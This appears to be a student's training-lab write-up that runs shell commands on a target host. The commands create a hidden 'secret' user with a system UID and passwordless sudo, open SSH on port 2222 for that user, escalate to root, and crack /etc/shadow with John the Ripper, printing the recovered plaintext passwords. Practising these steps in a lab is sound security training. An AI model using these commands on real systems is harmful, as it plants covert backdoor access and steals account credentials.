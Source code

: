 ## Advanced Bash 

Create a secret user named `sysd`. Make sure this user doesn't have a home folder created.
```bash
useradd sysd
```
Give your secret user a password.
```bash
passwd sysd
```
*the password is "thecoolest"

Give your secret user a system UID < 1000.
```bash
usermod -u 990 sysd
```
Give your secret user the same GID
```bash
groupmod -g 990 sysd
```
Give your secret user full sudo access without the need for a password.
- `sudo visudo`
```bash
sysd ALL=(ALL) NOPASSWD:ALL
#I edited the sudoers file.
```

Test that sudo access works without your password

```bash
sudo -l #it worked!
sudo apt install tree
sudo -V
```

## Allow ssh access over port 2222.

Command to edit the `sshd_config` file:

```bash
sudo nano /etc/ssh/sshd_config
```

Command to restart the ssh service:
```bash
systemctl restart ssh
```
Exit the root account:
```bash
exit #to log out of root account
exit #to log out of target machine
```
SSH to the target machine using your `sysd` account and port 2222:
```bash
ssh sysd@192.168.0.11 -p 2222
```
Use sudo to switch to the root user
```bash
sudo su
```
## Crack _all_ the passwords

Ssh back to the system using your sysd account
```bash
ssh sysd@192.168.0.11 -p 2222
```

- Use John to crack the entire /etc/shadow file
```bash
john /etc/shadow --show
sysadmin:passw0rd:18387:0:99999:7:::
student:Goodluck!:18387:0:99999:7:::
mitnik:trustno1:18387:0:99999:7:::
babbage:freedom:18387:0:99999:7:::
lovelace:dragon:18387:0:99999:7:::
stallman:computer:18387:0:99999:7:::
turing:lakers:18387:0:99999:7:::
#my password for sysd was taking forever to crack, but I already know what it is: thecoolest
```
